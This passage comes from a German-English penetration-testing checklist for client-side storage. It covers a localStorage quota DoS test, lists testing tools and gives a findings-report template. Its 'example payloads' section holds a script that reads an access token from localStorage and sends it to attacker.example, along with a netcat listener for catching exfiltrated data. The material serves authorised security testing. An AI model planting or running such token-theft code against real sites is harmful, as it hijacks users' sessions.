 - Don’t send secrets via `postMessage` without strict origin checks; avoid storing secrets where service worker can read.

---

### CS-06 — Storage quota abuse / large values DoS

**WSTG-Mapping:** Denial of Service via client resource exhaustion.

**Kurz-Schritte**

1. Try to write very large values to `localStorage` in JS and observe quota exceptions.
2. Check how app behaves: crashes? does it persist partially?

**Erwartetes Ergebnis / Beweis**

- App handles storage write failures gracefully and does not block critical flows. Evidence: console errors, graceful fallback.
    
    **Schnelle Gegenmaßnahme**
    
- Limit size of values written to client; validate inputs; handle quota exceptions.

---

## Tools & Beispiel-Payloads (nur autorisiert nutzen)

- DevTools (Application → Storage)
- Puppeteer / Playwright for scripted storage inspection & PoC exfiltration
- Small exfil endpoint: `nc -l 8000` or minimal `express` server to capture GET/POST
- Example PoC exfil snippet (for lab only):

```html
<script>
  (function(){
    const t = localStorage.getItem('access_token');
    if(t) new Image().src = 'https://attacker.example/steal?tok='+encodeURIComponent(t);
  })();
</script>

```

- Regex to detect JWTs: `/^[A-Za-z0-9_-]+\.[A-Za-z0-9_-]+\.[A-Za-z0-9_-]+$/`

---

## Reporting-Template (Minimalfelder pro Finding)

- **TestID** (z. B. CS-02)
- **WSTG-Ref** (z. B. WSTG Session Management / WSTG XSS)
- **Kurzbeschreibung**
- **Reproduktionsschritte** (raw PoC; storage dump)
- **Beweis (storage export, exfil logs, screenshots)**
- **Severity (CVSS) + Business Impact**
- **Kurz-Fix** + Detaillierte Remediation
- **Compensating controls** (z. B. short token TTL, stricter CSP)

---